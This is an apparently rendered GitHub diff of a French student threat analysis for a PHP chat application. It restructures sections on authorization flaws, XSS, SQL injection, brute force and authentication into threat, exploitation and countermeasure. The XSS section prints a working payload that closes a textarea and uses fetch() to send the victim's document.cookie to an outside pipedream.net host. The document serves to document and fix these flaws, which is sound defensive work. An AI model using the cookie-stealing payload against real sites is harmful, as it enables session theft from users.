

Before and after one commit to panticne/sti-chat-project, a Markdown page: ANALYSE-MENACES.md, the part around the change printed below. Shown: that part at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/ANALYSE.md
+++ b/ANALYSE-MENACES.md
@@ -18,48 +51,69 @@ Pour éviter les attaques CSRF nous générons un token à chaque fois qu'un for
 
 Une limitation de cette solution est que si l'utilisateur ouvre une première page avec un formulaire, puis une deuxième avec un autre formulaire, alors la soumission du premier formulaire ne fonctionnera pas (puisque la valeur du token dans la session aura été changée).
 
-## Autorisation
+## 2. Autorisation
 
-Il est possible pour un utilisateur de lire, supprimer ou répondre à n'importe quel message contenu dans la base de données (via les liens `/delete.php?delete=<id>`, `read.php?message=<id>` et `send.php?message=<id>`).
+#### Menace
 
-### Contre mesure
+Il est possible pour un utilisateur de lire, supprimer ou répondre à n'importe quel message contenu dans la base de données.
+
+#### Exploitation
+
+Il lui suffit simplement de visiter un des liens suivants en changeant l'id affiché :
+* `/delete.php?delete=<id>`,
+* `read.php?message=<id>`,
+* `send.php?message=<id>`.
+
+#### Contre mesure
 
 Afin de  se  protéger contre cette vulnérabilité, une vérification a été rajoutée. Toute action sur un message doit être effectuée par le récipient du message. Cela a été corrigé dans les requêtes SQL correspondantes.
 
-## XSS
+## 3. XSS
+
+#### Menace
 
 L'application est vulnérable aux injections XSS puisque le code HTML et Javascript est interprété lorsqu'il se trouve à certains endroits critiques comme :
 
 * le corps d'un message et son sujet,
 * le nom et prénom d'un utilisateur.
 
+#### Exploitation
+
 Il est donc tout à fait possible d'injecter du code Javascript pour, par exemple, récupérer le cookie d'un utilisateur à son insu en envoyant le message suivant :
 
 ```html
-Corps du message
+Corps du message…
 </textarea> <!-- afin que ce qui suit ne s'affiche pas dans la réponse au message -->
 <script>fetch('https://enons72ccci9o.x.pipedream.net/' + document.cookie)</script>
 ```
 
-### Contre mesure
+#### Contre mesure
 
 Afin que le code HTML et Javascript ne puisse être interprété (lorsqu'il est injecté dans du code HTML), nous avons échappé les données provenant de l'utilisateur en utilisant la fonction PHP `htmlspecialchars`. Cela a été implémenté dans la fonction `anti_xss` dans `secure.php`.
 
-## Injections SQL
+## 4. Injections SQL
 
 Aucune possibilité d'injection SQL n'a été trouvée car nous utilisons la librairie PDO et ses méthodes prepare et execute. Celles-ci fournissent déjà un niveau de protection contre les injections SQL.
 
-## Brute force
+## 5. Brute force
+
+#### Menace
 
 L'application ne dispose d'aucune protection contre le brute force, que ce soit lors du login d'un utilisateur, lorsqu'un utilisateur change son mot de passe (et qu'il doit rentrer son mot de passe actuel) ou dans l'interface d'administration.
 
-### Contre mesure
+#### Exploitation
+
+Technique standard de brute force, par exemple avec le logiciel Hydra.
+
+#### Contre mesure
 
 Plusieurs solutions sont possibles pour combler cette vulnérabilité. Par exemple, une colonne indiquant le nombre de login raté pourrait être rajouté dans la table utilisateur. Une fois une certaine valeur dépassée, le compte est bloqué. Pour débloquer le compte, un mail pourrait être envoyé à l'utilisateur (donnée qui n'existe pas dans notre application). Sinon, le compte pourrait être débloqué par un administrateur, mais il faudrait un moyen de communication entre l'administrateur et la personne ayant son compte bloqué (ce qui n'est pas le cas de notre application). C'est pour cette raison que nous n'avons pas implémenté cette fonctionnalité.
 
 Il serait aussi possible de limiter le brute force au niveau des adresses IP mais cela sort du champ de notre application.
 
-## Authentification
+## 6. Authentification
+
+#### Menace
 
 Lorsque l'utilisateur souhaite changer son mot de passe, le mot de passe actuel n'est pas demandé. Ceci est un problème car un attaquant ayant volé la session d'un utilisateur—mais qui ne connait pas son mot de passe—pourait alors le changer.
 
````
Also changed, not shown: other parts of ANALYSE-MENACES.md (+61 -8 lines), img/dfd.png (added).
